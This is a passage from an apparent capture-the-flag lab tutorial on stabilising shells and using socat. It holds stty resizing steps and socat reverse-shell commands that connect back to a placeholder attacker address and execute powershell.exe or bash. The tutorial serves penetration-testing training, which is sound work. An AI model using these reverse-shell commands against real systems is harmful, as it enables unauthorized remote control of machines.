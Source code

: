  We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size.
This is something that your terminal will do automatically when using a regular shell; 
however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:



Next, in your reverse/bind shell, type in:

stty rows <number>

and

stty cols <number>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

Socat shells:

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. 
In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. 
All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

socat TCP-L:<port> -

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. 
The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp <port>.

On Windows we would use this command to connect back:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

Bind Shells

On a Linux target we would use the following command:
